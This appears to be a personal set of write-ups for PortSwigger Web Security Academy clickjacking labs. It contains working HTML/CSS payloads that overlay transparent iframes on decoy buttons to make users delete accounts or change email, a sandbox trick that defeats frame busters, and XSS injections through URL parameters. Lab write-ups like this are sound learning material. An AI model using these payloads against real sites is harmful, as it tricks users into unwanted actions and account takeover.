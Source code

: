  **Basic clickjacking with CSRF token protection**

Trick user into clicking on something 
Tricked into deleting a user account 

Used iframe 
Embed html into another html 

From <https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected> 



The goal is to position our "click me" over the delete button so user can be tricked into clicking that button 


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 490px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ad2002d04993c2f8afe94af00250058.web-security-academy.net/my-account"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8ab94205-7f54-4795-8956-602eb58caca3)


 **Clickjacking with form input data prefilled from a URL parameter**


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0adf00bf0437f56386ebf5f8003a0093.web-security-academy.net/my-account?email=viet@gmail.com"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a1d8e1e5-6968-494d-902a-dbc900a5e82a)


Line up click me to the update button

 **Clickjacking with a frame buster script**


An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window: 
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe> 
Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site. 

From <https://portswigger.net/web-security/clickjacking> 



```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a2e00b703b0c5a0806658b2000b00c5.web-security-academy.net/my-account?email=viet@gmail.com"></iframe>
```
 **Exploiting clickjacking vulnerability to trigger DOM-based XSS**

Trigger an xss on the name box

```
<img src=0 onerror=alert(1)>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/86a5c928-4ff8-42be-b053-c94c626488c6)






Prefill form with a xss 

```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 410px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a9a00750434688a801ad1dc005f0087.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=viet@gmail.com&subject=test&message=test#feedbackResult"></iframe>
```



 **Multistep clickjacking**


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    .firstClick, .secondClick {
        position:absolute;
        top: 500px;
        left: 50px;
        z-index: 1;
    }
   .secondClick {
        top: 300px;
        left: 200px;
    }
</style>
<div class="firstClick">Click me</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a74001403c2b5fbe61f0eac004f004d.web-security-academy.net/my-account/"></iframe>
```


Will have the user click through 2 click me to delete an account
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f1770584-0991-4c9b-82a7-707d7b00bc37)





Clicks are a little off center due to the solved lab
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d75f327f-be39-47ce-9fa3-2e40f76dbe77)


